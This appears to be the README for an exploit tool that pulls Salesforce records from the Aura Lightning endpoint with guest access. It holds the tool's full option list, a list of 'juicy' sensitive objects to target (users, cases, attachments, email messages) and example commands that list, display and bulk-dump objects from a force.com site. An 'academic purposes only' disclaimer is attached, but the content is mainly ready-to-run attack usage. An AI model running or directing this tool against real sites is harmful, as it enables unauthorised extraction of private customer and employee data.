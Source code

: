 # PoC for Salesforce lightning
***Academic purposes Only***. 


This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


雑なコードだけど許してくれい


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT] [-r RECORD_ID] [-d] [-f] [-s]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest
                        users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
